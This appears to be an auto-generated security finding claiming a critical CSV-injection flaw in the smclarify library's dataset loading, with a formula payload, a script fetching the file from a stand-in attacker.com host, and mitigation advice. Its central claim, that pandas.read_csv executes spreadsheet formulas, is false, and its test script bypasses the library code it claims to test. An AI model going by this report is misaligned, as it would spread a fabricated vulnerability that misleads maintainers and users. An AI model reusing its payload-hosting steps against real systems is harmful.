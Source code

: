 - Vulnerability Name: CSV Injection in Dataset Loading
- Description:
  - An attacker crafts a malicious CSV file containing formulas (e.g., `=SYSTEM("malicious_command")`).
  - The attacker hosts this malicious CSV file on a public S3 bucket or a web server.
  - A user, intending to use `smclarify` for bias analysis, is tricked or unknowingly uses a dataset path pointing to the attacker's malicious CSV file.
  - The `smclarify` library, through its `Datasets` class and `S3Dataset` module, uses `pandas.read_csv` to load the dataset from the provided path.
  - If the pandas library version used by `smclarify` is vulnerable to CSV injection, `pandas.read_csv` executes the malicious formulas embedded in the CSV during parsing.
  - This results in arbitrary code execution on the user's system with the privileges of the user running `smclarify`.
- Impact:
  - Arbitrary code execution. An attacker can potentially gain full control over the user's system, leading to data breaches, malware installation, or denial of service.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
  - None. The code directly uses `pandas.read_csv` and `pd.read_parquet` without any input sanitization or security configurations.
- Missing Mitigations:
  - Input Sanitization: Implement sanitization of datasets before parsing with pandas, specifically neutralizing or removing potentially malicious content like CSV formulas.
  - Secure Parsing Configuration: Configure `pandas.read_csv` to disable features that could lead to code injection, such as formula execution, if pandas provides such options.
  - Sandboxing/Isolation: Execute dataset loading and analysis within a sandboxed environment or container to limit the impact of any code execution vulnerability.
  - Input Validation: Implement checks to validate the source and integrity of datasets, ensuring they are loaded only from trusted and verified origins.
- Preconditions:
  - Attacker has the ability to host a malicious CSV file at an accessible location (e.g., public web server, S3 bucket).
  - User uses `smclarify` to load a dataset, and the provided path inadvertently or intentionally points to the attacker's malicious CSV file.
  - The version of the pandas library used by `smclarify` is susceptible to CSV injection or a similar vulnerability.
- Source Code Analysis:
  - File: `/code/src/smclarify/util/dataset.py`
    ```python
    class S3Dataset(S3CachedDatasetMixin, Dataset):
        ...
        def read_csv_data(self, index_col=False) -> pd.DataFrame:
            self.ensure_local()
            return pd.read_csv(self.local_path(), index_col=index_col)
    ```
    - The `S3Dataset.read_csv_data` function directly utilizes `pandas.read_csv` to load data. The `self.local_path()` method determines the file path, which, if derived from a malicious source URL controlled by an attacker, can lead to loading a malicious CSV file.
    - If `pandas.read_csv` is vulnerable to CSV injection, parsing a malicious CSV through this code will trigger the vulnerability.
- Security Test Case:
  1. Create a malicious CSV file named `malicious.csv` with the following content to test for command execution:
     ```csv
     Column1,Column2
     test,=SYSTEM("touch /tmp/smclarify_pwned")
     ```
  2. Host `malicious.csv` on a publicly accessible web server. For example, using Python's `http.server`:
     ```bash
     python3 -m http.server 8000
     ```
     Assume the server is running on `attacker.com` and the file is accessible at `http://attacker.com:8000/malicious.csv`.
  3. Create a Python script to load the malicious CSV using a modified `Datasets` class within `smclarify`:
     ```python
     import smclarify
     import pandas as pd
     import os

     class MaliciousDataset(smclarify.util.dataset.Dataset):  # Corrected base class
         def __init__(self, id, source, description):
             super().__init__(id, source, description)
         def ensure_local(self) -> None:
             pass
         def train(self) -> pd.DataFrame:
             return pd.DataFrame()
         def read_csv_data(self, index_col=False) -> pd.DataFrame:
             return pd.read_csv(self.source, index_col=index_col)


     datasets_instance = smclarify.util.dataset.Datasets()
     datasets_instance.datasets["malicious_dataset"] = MaliciousDataset(
         "malicious_dataset",
         "http://attacker.com:8000/malicious.csv", # Use your attacker's host and port
         "Malicious Dataset for CSV injection test",
     )

     try:
         df = datasets_instance("malicious_dataset").read_csv_data()
         print("CSV loaded successfully (unexpected if vulnerable):")
         print(df)
     except Exception as e:
         print(f"Error loading CSV (expected if vulnerable or pandas patched): {e}")

     if os.path.exists("/tmp/smclarify_pwned"):
         print("VULNERABILITY CONFIRMED: /tmp/smclarify_pwned file created, indicating code execution!")
         os.remove("/tmp/smclarify_pwned") # Cleanup for repeated tests
     else:
         print("Vulnerability NOT confirmed: /tmp/smclarify_pwned file NOT created (pandas might be patched or not vulnerable).")
     ```
  4. Run the Python script in an environment where `smclarify` and a potentially vulnerable version of pandas are installed.
  5. Check if the file `/tmp/smclarify_pwned` has been created. If the file exists, it confirms that the CSV injection vulnerability was successfully exploited, leading to command execution. If not, pandas might be patched, or the system might have security features preventing the command execution.